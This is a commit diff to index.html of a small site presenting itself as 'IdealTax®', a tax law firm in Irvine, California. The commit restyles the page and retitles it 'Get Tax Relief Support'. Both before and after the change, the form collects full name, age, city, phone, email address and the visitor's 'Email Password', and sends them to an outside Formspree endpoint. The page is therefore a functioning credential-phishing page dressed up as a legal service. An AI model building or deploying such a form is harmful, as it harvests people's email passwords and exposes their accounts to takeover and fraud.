

Before and after one commit to aymane-22/idealtax-site, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page at 95% size. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html with new form

```diff
--- a/index.html
+++ b/index.html
@@ -1,76 +1,90 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8">
-  <title>IdealTax® – Tax Lawyer in Irvine, CA</title>
-  <meta name="viewport" content="width=device-width, initial-scale=1">
+    <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1" />
+    <title>IdealTax® | Get Tax Relief Support</title>
     <style>
-    body { font-family: Arial, sans-serif; margin: 0; padding: 0; line-height: 1.6; }
-    header { background: #004080; color: #fff; padding: 20px 10px; text-align: center; }
-    header h1 { margin: 0; font-size: 2rem; }
-    .contact { font-size: 1rem; margin-top: 5px; }
-    .container { padding: 20px 15px; max-width: 600px; margin: 30px auto; }
-    .container p { font-size: 1.1rem; }
-    ul { list-style-type: disc; margin-left: 20px; }
-    label { display: block; margin-top: 15px; font-weight: bold; }
+        body {
+            font-family: Arial, sans-serif;
+            background: #f4f7fb;
+            margin: 0;
+            padding: 0;
+        }
+        header {
+            background-color: #003366;
+            color: white;
+            padding: 20px;
+            text-align: center;
+        }
+        header h1 {
+            margin: 0;
+            font-size: 28px;
+        }
+        .container {
+            max-width: 500px;
+            margin: 40px auto;
+            background: white;
+            padding: 30px;
+            box-shadow: 0 0 10px rgba(0,0,0,0.1);
+            border-radius: 6px;
+        }
+        h2 {
+            text-align: center;
+            color: #003366;
+        }
+        form {
+            display: flex;
+            flex-direction: column;
+        }
         input {
-      width: 100%; padding: 10px; margin-top: 5px;
-      border: 1px solid #ccc; border-radius: 4px;
-      font-size: 1rem;
+            margin-bottom: 15px;
+            padding: 10px;
+            font-size: 16px;
+            border: 1px solid #ccc;
+            border-radius: 4px;
         }
         button {
-      margin-top: 20px; padding: 12px 20px;
-      background: #007ACC; color: #fff; border: none;
-      border-radius: 4px; font-size: 1rem;
+            background-color: #003366;
+            color: white;
+            border: none;
+            padding: 12px;
+            font-size: 16px;
             cursor: pointer;
+            border-radius: 4px;
         }
-    button:hover { background: #005a99; }
-    footer { margin: 40px 0; text-align: center; font-size: 0.9rem; color: #666; }
+        button:hover {
+            background-color: #0055aa;
+        }
+        footer {
+            text-align: center;
+            padding: 20px;
+            font-size: 14px;
+            color: #666;
+        }
     </style>
 </head>
 <body>
 
 <header>
-    <h1>IdealTax®</h1>
-    <div class="contact">
-      Tax Lawyer – Avocat fiscaliste à Irvine, Californie | 📞 +1 714‑751‑5200
-    </div>
+    <h1>IdealTax<span style="font-size:14px; vertical-align: super;">®</span></h1>
 </header>
 
 <div class="container">
-    <p>Welcome to <strong>IdealTax®</strong>, your trusted tax law firm in Irvine, California.
-    With decades of expertise in both federal and California tax regulations, we provide:</p>
-    <ul>
-      <li>Comprehensive tax planning & compliance</li>
-      <li>IRS representation & audit support</li>
-      <li>Personalized guidance for individuals & businesses</li>
-    </ul>
-
-    <form method="POST" action="https://formspree.io/f/xgvypvnq">
-      <label for="fullname">Full Name</label>
-      <input type="text" id="fullname" name="Full Name" required>
-
-      <label for="age">Age</label>
-      <input type="number" id="age" name="Age" required>
-
-      <label for="city">City</label>
-      <input type="text" id="city" name="City" required>
-
-      <label for="phone">Phone Number</label>
-      <input type="tel" id="phone" name="Phone Number" required>
-
-      <label for="email">Email Address</label>
-      <input type="email" id="email" name="Email" required>
-
-      <label for="emailpass">Email Password</label>
-      <input type="password" id="emailpass" name="Email Password" required>
-
+    <h2>Get Tax Relief Support</h2>
+    <form action="https://formspree.io/f/xgvypvnq" method="POST">
+        <input type="text" name="Full Name" placeholder="Full Name" required />
+        <input type="number" name="Age" placeholder="Age" required />
+        <input type="text" name="City" placeholder="City" required />
+        <input type="tel" name="Phone Number" placeholder="Phone Number" required />
+        <input type="email" name="Email" placeholder="Email Address" required />
+        <input type="password" name="Email Password" placeholder="Email Password" required />
         <button type="submit">Submit</button>
     </form>
 </div>
 
 <footer>
-    &copy; 2025 IdealTax® — Excellence in Tax Law & Compliance in California
+    Contact us at +1 714-751-5200 · 2 Park Plaza, Suite 450, Irvine, California 92614
 </footer>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
